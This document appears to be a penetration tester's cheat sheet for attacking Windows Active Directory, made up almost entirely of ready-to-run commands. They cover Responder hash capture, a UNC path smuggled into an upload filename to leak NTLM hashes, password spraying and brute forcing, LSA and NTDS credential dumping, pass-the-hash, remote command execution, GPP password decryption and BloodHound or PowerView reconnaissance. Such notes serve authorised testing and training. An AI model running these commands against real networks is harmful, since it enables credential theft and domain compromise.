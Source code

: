 # 🔭 AD Enumeration

## Capturing NTLMv2 Hashes

!!! info
    🐈‍⬛ Hashcat mode -> 5600

```shell
# responder
sudo responder -I eth0

# smb server
impacket-smbserver -smb2support <sharename> $(pwd)
```

### UNC Attack

```shell
# from inside the machine (shortcut file, shell or web attack)
dir \\<IP>\test
Content-Disposition: form-data; name="myFile"; filename="\\\\<ip>\\test"
```

## Living off the Land

```shell
# list domain users
net user /domain
net user /domain <username>
# list domain groups
net group /domain
net group /domain <groupname>

# add user to group
net group <groupname> <username> /add /domain

# list a share
ls \\dc1.corp.com\sysvol\corp.com\

# password policies
net accounts /domain

# get current domain name
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
```

## PowerView

```shell
# if scripts can be imported
powershell -ep bypass
Import-Module .\PowerView.ps1

# domain info
Get-NetDomain
# list users
Get-NetUser
Get-NetUser | select cn
Get-NetUser <usercn>
# list groups
Get-NetGroup
Get-NetGroup | select cn
Get-NetGroup <groupcn> | select member
# list computers
Get-NetComputer
Get-NetComputer | select operatingsystem,dnshostname

# find local admin access under current user
Find-LocalAdminAccess
# see who is logged on
Get-NetSession -ComputerName <computer>
# if fails, use psloggedon.exe, needs Remote Registry active on host
PsLoggedon.exe \\<computer>

# list spn
Get-NetUser -SPN | select samaccountname,serviceprincipalname
# or
setspn -L iis_service
# list Access Control Entries (ACE) of user
Get-ObjectAcl -Identity <user>
# convert SID to name
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104

# filter by perm GenericAll for a specific group
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

# find AS-REP Roastable accounts
Get-DomainUser -PreauthNotRequired -verbose
# find kerberoastable accounts
Get-NetUser -SPN | select serviceprincipalname

# find shares
Find-DomainShare
```

## Password Spraying

> <https://github.com/ropnop/kerbrute>

```shell
# nxc or cme
nxc smb <ip> -u users.txt -p <password> -d <domain> --continue-on-success

# kerbrute
kerbrute passwordspray -d <domain> users.txt <password> --dc <dc_ip>
```

## User Enumeration

> <https://github.com/lkarlslund/ldapnomnom>

```shell
# enum users via Kerberos
kerbrute enumusers --dc <ip> -d <domain> <userlist>

# LDAPnomnom
ldapnomnom -dnsdomain <domain> -server <dc-ip> -input <wordlist>

# windows
.\Rubeus.exe brute /users:<userlist> /passwords:<wordlist> /domain:<domain>
```

## Credential Testing

!!! tip
    🍪 NetExec

    - `[+]` is valid credentials
    - `[pwned!]` is valid credential with privileges 

```shell
# nxc
# check valid domain credentials
nxc smb <ip> -u <user> -p <password> -d <domain>
# check valid local credentials
nxc smb <ip> -u <user> -p <password> --local-auth

# check in a range of machines
nxc smb x.x.x.70-76 -u <user> -p <password> -d <domain> --continue-on-success

# with a userlist and wordlist
nxc smb <ip> -u <userlist> -p <wordlist> -d <domain> --continue-on-success

# list shares, users or all
nxc smb <ip> -u <user> -p <pass> -d <domain> --shares
nxc smb <ip> -u <user> -p <pass> -d <domain> --users
nxc smb <ip> -u <user> -p <pass> -d <domain> --all

# dump lsa or ntds
nxc smb <ip> -u <user> -p <pass> --lsa
nxc smb <ip> -u <user> -p <pass> --ntds

# enumerate users by rid
nxc smb <ip> -u 'guest' -p '' --rid-brute

# execute a command
nxc smb <ip> -u <user> -p <pass> -x <command>

# PTH
nxc smb <ip> -u <user> -H <hash> 

# kerbrute
kerbrute brute -d <domain> -u <user> -p <wordlist>
```

## GPP password in SYSVOL policy

```shell
# manual
grep -inr "cpassword" . --include=*.xml

# GPPPassword
# with NULL session
impacket-Get-GPPPassword -no-pass <ip>
# with creds
impacket-Get-GPPPassword <domain>/<user>:<pass>@<ip>
# parse a local file
impacket-Get-GPPPassword -xmlfile <Policy>.xml local

# nxc
nxc smb <ip> -u <user> -p <pass> -d <domain> -M gpp_password
```

Decrypt the password

```shell
gpp-decrypt <pass>
```

## BloodHound

```shell
sudo neo4j start
bloodhound
# upload collected zip 
```

### SharpHound

!!! warning
    For Bloodhound legacy (4.3.1) compatibility, use sharphound [v1.1.1.1](https://github.com/SpecterOps/SharpHound/releases/tag/v1.1.1)

```shell
.\SharpHound.exe -c All

Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -OutputDirectory . -OutputPrefix "dom audit"
```

### bloodhound-python

```shell
bloodhound-python -c All -u <user> -p <pass> -d <domain> -dc <dc_hostname> -ns <ns_ip> --zip 
```

## LDAPDomainDump

```shell
ldapdomaindump -u '<domain>\<user>' -p '<pass>' <ip>
```

## Automated Enumeration

### ADpeas

> <https://github.com/61106960/adPEAS>

```shell
Import-Module .\adPEAS.ps1
Invoke-adPEAS
```

